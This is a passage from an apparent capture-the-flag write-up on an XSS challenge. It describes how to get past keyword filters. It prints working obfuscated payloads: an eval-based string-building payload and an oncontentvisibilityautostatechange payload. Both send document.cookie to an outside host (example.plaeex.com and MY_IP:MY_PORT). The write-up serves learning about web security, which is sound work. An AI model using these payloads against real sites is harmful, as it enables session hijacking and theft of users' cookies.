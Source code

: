 Debug screenshot showing the payload passes both filters successfully (`b` here represents non-readable bytes). Therefore only `iframe`, `srcdoc` are searched—which don’t appear in articles—so we bypass into `innerHTML`.
![image]({{ "/assets/img/2025-03-03-XSSPwnme/image6.png" | relative_url }})

Solved:
![image]({{ "/assets/img/2025-03-03-XSSPwnme/image7.png" | relative_url }})

### `Method 2: use eval to concatenate strings and build the payload in JS`

This idea is simple but the implementation is fiddly. We use a tag not present in articles (`<input>`) with the `onfocusin` event and `autofocus`. But how do we write an uppercase **T** in `setTimeout`?

=> Use `eval` to craft an expression whose value yields `"T"`. One way is:
![image]({{ "/assets/img/2025-03-03-XSSPwnme/image8.png" | relative_url }})


=> A player’s payload: `http://localhost/?q=<input onfocusin="eval(set" +eval("'\xa".substr(0, 3) + "54" + "'") +"imeout(function(){" +"fetcha".substr(0, 5) +"('" +"httpa".substr(0, 4) +"://example" +".pla".substr(0, 2) +"eex." +"coma".substr(0, 3) +"/?yeet='+btoa(document.cookie))},2000))"; autofocus>`  
> Remember to URL-encode the payload above.

### More solutions exist

![image]({{ "/assets/img/2025-03-03-XSSPwnme/image9.png" | relative_url }})

![image]({{ "/assets/img/2025-03-03-XSSPwnme/image10.png" | relative_url }})

![image]({{ "/assets/img/2025-03-03-XSSPwnme/image11.png" | relative_url }})

![image]({{ "/assets/img/2025-03-03-XSSPwnme/image12.png" | relative_url }})

```
<input type=hidden oncontentvisibilityautostatechange='set&#84imeout(() => { window.open("//MY_IP:MY_PORT/?cookie="+document.cookie) }, 2000)' style=content-visibility:auto>
```
